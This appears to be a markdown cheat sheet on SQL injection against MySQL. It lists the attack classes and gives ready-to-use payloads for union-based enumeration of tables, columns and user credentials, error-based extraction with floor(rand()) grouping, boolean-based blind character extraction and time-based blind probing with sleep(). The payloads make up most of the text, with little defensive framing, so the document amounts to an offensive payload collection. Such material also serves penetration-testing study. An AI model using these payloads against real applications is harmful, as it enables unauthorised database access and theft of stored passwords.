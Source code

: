 ﻿**In-band SQLi (Classic SQLi)**
 - Error-based SQLi	(//echo)
 - Union-based SQLi	(echo)
 
**Inferential SQLi (Blind SQLi)**
 - Blind-based SQLi
	 - Boolean-based (content-based) Blind SQLi
	 - Time-based Blind SQLi

**Out-of-band SQLi**
[Out-of-band SQL Injection](https://www.acunetix.com/blog/articles/blind-out-of-band-sql-injection-vulnerability-testing-added-acumonitor/) is not very common, mostly because it depends on features being enabled on the database server being used by the web application. Out-of-band SQL Injection occurs when an attacker is unable to use the same channel to launch the attack and gather results.

**In-band SQLi (Classic SQLi)** 
 - **Union based(echo)**
	 - users where id=0 or 1=1     
	 - testing numbers of columns with "order by"   
	 -	union select,database(),version()   


```
order by 
union select
group_concat(table_name) from information_schema.tables where table_schema=database()
group_concat(column_name) from information_schema.columns where table_name='table_name'
group_concat(data) from table_name
```
Example

    #Enumerating tables
	 -1 union select 1,2,3,concat(table_name) from information_schema.tables where table_schema=database()
	#Enumerating columns
	-1 union select 1,2,3,concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' 
	#Dump Data from Tables   
     -1 union select 1,2,3,concat(username,password) from users 

- **Error-based SQLi** 
```
# Intro 

SELECT count(*) from information_schema.tables;
SELECT rand();
SELECT floor(1.5);
select 1 from y;
select count(*),username from users group by username;

#Variable
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;
SELECT @x;
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;
SELECT @x;

# Version
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)

# Table
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)
```
       
**Inferential SQLi	 (Blind SQLi)**
  Change config (//mysqli_report(MYSQLI_REPORT_ERROR |
MYSQLI_REPORT_STRICT)) 

-	Boolean Based Blind(id=1 and 1=2) 
	-  `$sql ="SELECT * FROM users WHERE id="$uid""`
	- `$sql ="SELECT * FROM users WHERE id='$uid'"`
	- `$sql ="SELECT * FROM users WHERE id=('$uid')"`
```
# Intro
select substr('abcde',1,1);
select ascii('a');
select ascii(substr(@@version,1,1));

# True or False
select ascii(substr(@@version,1,1)) < 50;
select ascii(substr(@@version,1,1)) < 40;
select ascii(substr(@@version,1,1)) = 49;

# Testing
1 and 1=1 -> True
1 and 1=2 -> False

# Version
and ascii(substr(@@version,1,1)) = 49 -> First Character
and ascii(substring(version(),2,1)) = 48 -> Second Character

# Table
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100
```
- Time Based Blind	(1 -sleep(5))
```
# Intro
SELECT IF(500<1000, "YES", "NO");
sleep(5);
and if(500<1000, sleep(5), NULL) -> Sleep
and if(500>1000, sleep(5), NULL) -> Do Not Sleep

# Version
and if(ascii(substr(version(),1,1)) = 49, sleep(5), NULL)

# Table
and if(ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100, sleep(5), NULL)

```


